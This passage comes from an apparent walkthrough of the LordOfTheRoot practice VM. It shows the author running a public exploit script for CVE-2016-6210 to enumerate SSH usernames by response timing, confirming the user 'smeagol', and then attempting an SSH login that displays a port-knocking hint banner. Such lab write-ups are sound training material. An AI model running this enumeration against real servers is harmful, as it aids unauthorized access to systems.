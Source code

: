 So you have to give the script a username or a list of users to enumerate. Well, we already know one user! If you glanced at the LordOfTheRoot VM after it booted, you probably noticed good old smeagol:

{% img center /images/pentest/lordoftheroot/smeagol.png 'smeagol' 'smeagol' %}

Ran the script with the smeagol username:

``` 
python 40136.py -u smeagol 192.168.217.136


User name enumeration against SSH daemons affected by CVE-2016-6210
Created and coded by 0_o (nu11.nu11 [at] yahoo.com), PoC by Eddie Harari


[*] Testing SSHD at: 192.168.217.136:22, Banner: SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2.3
[*] Getting baseline timing for authenticating non-existing users............
[*] Baseline mean for host 192.168.217.136 is 0.0507569 seconds.
[*] Baseline variation for host 192.168.217.136 is 0.0110011491622 seconds.
[*] Defining timing of x < 0.0837603474867 as non-existing user.
[*] Testing your users...
[+] smeagol - timing: 0.425467
```

We know there is a smeagol user on the box, but couldn't find any other exploit that might help in this situation. So I just tried SSH'ing into the box to see what happens:

``` 
ssh smeagol@192.168.217.136
The authenticity of host '192.168.217.136 (192.168.217.136)' can't be established.
ECDSA key fingerprint is SHA256:XzDLUMxo8ifHi4SciYJYj702X3PfFwaXyKOS07b6xd8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.217.136' (ECDSA) to the list of known hosts.

                                                  .____    _____________________________
                                                  |    |   \_____  \__    ___/\______   \
                                                  |    |    /   |   \|    |    |       _/
                                                  |    |___/    |    \    |    |    |   \
                                                  |_______ \_______  /____|    |____|_  /
                                                          \/       \/                 \/
 ____  __.                     __     ___________      .__                   .___ ___________      ___________       __
|    |/ _| ____   ____   ____ |  | __ \_   _____/______|__| ____   ____    __| _/ \__    ___/___   \_   _____/ _____/  |_  ___________
|      <  /    \ /  _ \_/ ___\|  |/ /  |    __) \_  __ \  |/ __ \ /    \  / __ |    |    | /  _ \   |    __)_ /    \   __\/ __ \_  __ \
|    |  \|   |  (  <_> )  \___|    <   |     \   |  | \/  \  ___/|   |  \/ /_/ |    |    |(  <_> )  |        \   |  \  | \  ___/|  | \/
|____|__ \___|  /\____/ \___  >__|_ \  \___  /   |__|  |__|\___  >___|  /\____ |    |____| \____/  /_______  /___|  /__|  \___  >__|
        \/    \/            \/     \/      \/                  \/     \/      \/                           \/     \/          \/
Easy as 1,2,3
smeagol@192.168.217.136's password: 
```
